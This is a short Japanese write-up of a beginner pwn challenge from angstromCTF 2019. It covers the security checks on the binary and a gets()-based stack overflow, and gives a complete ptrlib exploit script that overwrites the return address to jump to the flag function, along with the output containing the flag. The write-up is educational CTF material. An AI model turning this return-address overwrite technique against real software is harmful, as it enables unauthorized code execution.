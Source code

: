 # [pwn 50pts] Aquarium - angstromCTF 2019
64bitでDEP以外無効です。
```
$ checksec aquarium
[*] 'aquarium'
    Arch:	64 bits (little endian)
    NX:		NX enabled
    SSP:	SSP disabled (No canary found)
    RELRO:	Partial RELRO
    PIE:	PIE disabled
```

何かいろんな数字をscanfで入力した後、最後にgetsがあるのでオーバーフローです。
フラグを読み込んで表示するflag関数もあるので、それを呼びましょう。

```python
from ptrlib import *

elf = ELF("./aquarium")
#sock = Process(["stdbuf", "-o0", "./aquarium"])
sock = Socket("shell.actf.co", 19305)

_ = input()

print(hex(elf.symbol("flag")))
payload = b"A" * 0x98
payload += p64(elf.symbol("flag"))

# Stage 1
sock.sendline("1")
sock.sendline("2")
sock.sendline("3")
sock.sendline("4")
sock.sendline("5")
sock.sendline("6")
sock.recvuntil("Enter the name of your fish tank: ")
sock.sendline(payload)

sock.interactive()
```

おっけー。
```
$ python solve.py 
[+] Socket: Successfully connected to shell.actf.co:19305

0x4011b6
[ptrlib]$ actf{overflowed_more_than_just_a_fish_tank}
```

# 感想
pwn初心者向けの問題だと思います。
（私も初心者なので競技開始後しばらく解けなかったです（問題バイナリが途中で変わってました））